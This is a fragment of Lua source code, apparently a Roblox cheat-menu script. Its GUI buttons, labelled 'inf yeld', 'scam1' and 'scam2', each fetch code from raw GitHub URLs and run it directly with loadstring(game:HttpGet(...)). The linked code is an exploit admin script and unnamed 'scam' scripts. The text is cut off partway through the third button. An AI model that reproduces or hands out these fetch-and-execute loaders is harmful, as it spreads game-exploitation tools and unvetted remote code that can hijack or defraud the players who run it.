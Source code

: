 


section1:addButton("inf yeld", function()
loadstring(game:HttpGet('https://raw.githubusercontent.com/EdgeIY/infiniteyield/master/source'))()
end)

section1:addButton("scam1", function()
loadstring(game:HttpGet(('https://raw.githubusercontent.com/imaboy12321/shhh/main/gaey'),true))()
end)
                                                                                                                                                                                                            

section1:addButton("scam2", function()